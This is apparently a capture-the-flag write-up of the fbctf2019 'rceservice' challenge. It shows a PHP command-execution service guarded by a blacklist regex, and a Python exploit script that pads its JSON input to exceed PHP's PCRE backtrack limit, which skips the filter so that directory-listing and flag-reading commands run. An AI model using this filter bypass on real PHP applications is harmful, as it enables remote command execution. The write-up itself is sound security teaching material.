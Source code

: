 # rceservice

This challenge is very short:

```php
<?php

putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];

  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}

?>
```

It uses `preg_match()` to block a lot of patterns.

But we know that PHP has `pcre.backtrack_limit`, and the value of it is `1000000` by default.

When the regex matching backtrack more than `1000000` times, the `preg_match` will return `false` directly.

(Detail: https://www.php.net/manual/en/pcre.configuration.php)

![](https://github.com/w181496/CTF/raw/master/fbctf2019/rceservice/pcre.png)

([regex101](https://regex101.com) is your good friend)

You can test this special feature on your php console:

```
php > var_dump(preg_match("/union.+select/is", "union select /*".str_repeat("s", 1000000)));
bool(false)
php > var_dump(preg_match("/union.+select/is", "union select /*".str_repeat("s", 1)));
int(1)
```

So if the number of backtracking times exceeds the limit, the `preg_match` will return `false` and then bypass the `if` check.

Exploit script:

```python
import requests

payload = '{"cmd":"ls /","zz":"' + "a"*(1000000) + '"}'

r = requests.post("http://challenges.fbctf.com:8085/", data={"cmd":payload})
print r.text
```


e.g.

`'{"cmd":"ls -al /home/rceservice/","zz":"' + "a"*(1000000) + '"}'`

=>

```
drwxr-xr-x 1 root root       4096 May 26 21:20 ..
-r--r--r-- 1 root rceservice   43 May 23 03:58 flag
dr-xr-xr-x 1 root rceservice 4096 May 26 21:20 jail
```

Bypass successfully!

Now, let's read flag:

`'{"cmd":"/bin/cat /home/rceservice/flag","zz":"' + "a"*(1000000) + '"}'`

=> `fb{pr3g_M@tcH_m@K3s_m3_w@Nt_t0_cry!!1!!1!}`


